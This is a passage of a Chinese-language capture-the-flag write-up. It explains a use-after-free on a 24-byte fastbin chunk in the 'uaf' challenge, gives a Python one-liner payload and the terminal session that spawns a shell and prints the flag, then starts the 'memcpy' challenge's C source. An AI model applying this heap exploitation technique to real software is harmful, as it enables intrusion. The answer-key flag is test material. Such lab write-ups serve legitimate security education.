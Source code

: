 大小为24字节，属于fastbin。执行delete之后，如果case2中分配的空间大小为24字节，就可以重新分配到这一块内存区域。

  

**payload**

  

uaf@prowl:~$ python -c 'print "\x48\x15\x40\x00\x00\x00\x00\x00"'>/tmp/uaf_exp1
uaf@prowl:~$ ./uaf 24 /tmp/uaf_exp1
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2          #分配两次，因为程序先delete m,后delete w，只分配一次会先分配到w上面，而case1是先执行m->introduce()。
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning

  

## memcpy

  

### 题目描述

  

// compiled with:gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
	int i;
	for (i=0; i<len; i++) {
		dest[i] = src[i];
	}
	return dest;
}

